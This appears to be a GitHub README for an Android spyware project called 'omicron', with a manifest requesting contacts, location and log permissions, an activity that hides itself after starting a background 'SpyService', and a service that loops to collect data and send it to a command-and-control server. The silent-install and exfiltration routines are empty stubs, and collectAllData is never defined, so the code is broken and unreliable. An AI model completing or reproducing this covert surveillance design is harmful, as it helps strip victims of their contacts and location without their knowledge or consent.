

# omicron

---
## AndroidManifest.xml:

```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android">
    <uses-permission android:name="android.permission.READ_CONTACTS"/>
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"/>
    <uses-permission android:name="android.permission.READ_LOGS"/>
    
    <application>
        <activity android:name=".MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
        
        <service android:name=".SpyService"/>
    </application>
</manifest>
```
## MainActivity.java:
```
public class MainActivity extends Activity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        
        // Install silently
        installSilently();
        
        // Start background service
        startService(new Intent(this, SpyService.class));
        
        // Close activity
        finish();
    }
    
    private void installSilently() {
        // Silent installation code
    }
}

```

## SpyService.java:

```
public class SpyService extends Service {
    private Handler handler = new Handler();
    private Runnable runnable = new Runnable() {
        @Override
        public void run() {
            try {
                // Collect data
                collectData();
                
                // Send to C2
                sendToC2();
            } catch (Exception e) {
                e.printStackTrace();
            }
            
            // Schedule next collection
            handler.postDelayed(this, 60000);
        }
    };
    
    @Override
    public int onStartCommand(Intent intent, int flags, int startId) {
        // Start collection
        new Thread(() -> {
            while(true) {
                try {
                    // Collect data
                    collectData();
                    
                    // Send to C2
                    sendToC2();
                    
                    // Sleep
                    Thread.sleep(60000);
                } catch (InterruptedException e) {
                    Thread.currentThread().interrupt();
                }
            }
        }).start();
        
        return START_STICKY;
    }
    
    @Override
    public IBinder onBind(Intent intent) {
        return null;
    }
    
    private void collectData() {
        // Collect all data
        SharedPreferences prefs = getSharedPreferences("spy", MODE_PRIVATE);
        prefs.edit().putString("data", collectAllData()).apply();
    }
    
    private void sendToC2() {
        // Send to command-and-control server
    }
}
```


## Build Instructions:
File -> New -> New Project -> Empty Activity


Powered by Omi
